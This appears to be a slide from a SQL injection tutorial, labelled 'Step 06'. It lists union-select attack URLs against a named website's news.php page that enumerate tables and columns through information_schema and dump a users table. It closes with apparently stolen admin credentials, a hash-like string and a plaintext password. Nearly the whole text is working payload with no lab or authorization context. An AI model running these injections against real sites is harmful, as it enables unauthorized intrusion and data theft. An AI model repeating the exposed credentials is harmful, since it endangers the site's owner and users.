

# Step 06: Getting table, column and other row information's.
http://iagcc.com/news.php?id=-58 union select 1,2,3,table_name,5,6 from information_schema.tables where table_schema=database()-- -
Page (table name)
http://iagcc.com/news.php?id=-58 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
For getting all the table name
http://iagcc.com/news.php?id=-58 union select 1,2,3,group_concat(table_name,0x3c62723e),5,6 from information_schema.tables where table_schema=database()-- -
http://iagcc.com/news.php?id=-58 union select 1,2,3,group_concat(column_name,0x3c62723e),5,6 from information_schema.columns where table_name='users'-- -(UserId
,UserName ,Password)
http://iagcc.com/news.php?id=-58 union select 1,2,3,group_concat(UserId,UserName
,Password,0x3c62723e),5,6 from users-- - (1adminTSphIWx1QDUla0BwIUw=)
1, admin, M*a!lu@5%k@p!L